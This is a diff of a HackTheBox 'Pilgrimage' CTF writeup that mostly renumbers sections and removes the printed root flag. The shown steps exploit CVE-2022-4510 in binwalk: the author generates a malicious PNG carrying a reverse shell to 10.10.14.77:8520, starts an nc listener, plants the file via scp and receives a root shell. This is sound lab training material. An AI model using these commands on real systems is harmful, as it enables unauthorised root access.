

Before and after one commit to Chw41/My-CTF-Challenges, a Markdown page: HackTheBox/HackTheBox_ Pilgrimage Writeup.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/HackTheBox/HackTheBox_ Pilgrimage Writeup.md
+++ b/HackTheBox/HackTheBox_ Pilgrimage Writeup.md
@@ -293,25 +288,25 @@ blacklist=("Executable script" "Microsoft executable")
 done
 ```
 
-##### 8.1.2 Check binwalk version
+##### 7.1.2 Check binwalk version
 > binwalk -h
 
 ![](https://hackmd.io/_uploads/BJ7q9_Lz6.png)
 > Binwalk v2.3.2
 
-##### 8.1.3 Vulnerable CVE-2022-4510
-> git clone https://github.com/adhikara13/CVE-2022-4510-WalkingPath
+##### 7.1.3 Vulnerable CVE-2022-4510
+> git clone https://github.com/adhikara13/CVE-2022-4510-WalkingPath\
 > python3 exploit_generator.py reverse CTF.png 10.10.14.77 8520
 
 ![](https://hackmd.io/_uploads/BJev-XFLGp.png)
 > binwalk_exploit.png  CTF.png   LICENSE  README.md  walkingpath.py
 
-##### 8.1.4 Create ncat listening port
+##### 7.1.4 Create ncat listening port
 > nc -nvlp 8520
 
 ![](https://hackmd.io/_uploads/SknWXg3zp.png)
 
-##### 8.1.5 Copy png to SSH
+##### 7.1.5 Copy png to SSH
 > scp binwalk_exploit.png emily@10.10.11.219:/var/www/pilgrimage.htb/shurnk
 
 ![](https://hackmd.io/_uploads/SJgELtUfa.png)
@@ -320,14 +315,15 @@ done
 > scp binwalk_exploit.png emily@10.10.11.219:/home/emily
 
 ![](https://hackmd.io/_uploads/HJlJgzgnGa.png)
-> emily@pilgrimage:~$ ps -aux
-> emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh
-> emily@pilgrimage:~$ cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
-
-#### 8.2 Connecting ncat
+```
+emily@pilgrimage:~$ ps -aux
+emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh
+emily@pilgrimage:~$ cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
+```
+#### 7.2 Connecting ncat
 ![](https://hackmd.io/_uploads/HkG57l2Mp.png)
-
-> chw@Ubuntu22:~$ nc -nvlp 8520
+```
+chw@Ubuntu22:~$ nc -nvlp 8520
 Listening on 0.0.0.0 8520
 Connection received on 10.10.11.219 48536
 #id
@@ -339,11 +335,8 @@ root
 quarantine
 reset.sh
 root.txt
-#cat root.txt
-7bf8248e0de3a58ea60325e30e8ef9a8
-
-### 9. GET ROOT FLAG
-> **FLAG: 7bf8248e0de3a58ea60325e30e8ef9a8**
+```
+### ✅ Get Root FLAG
 
 
 ###### tags: `Web` `CTF` `dirsearch` `GitTool` `ImageMagick` `Binwalk` `ncat`
````
Also changed, not shown: other parts of HackTheBox/HackTheBox_ Pilgrimage Writeup.md (+17 -22 lines).
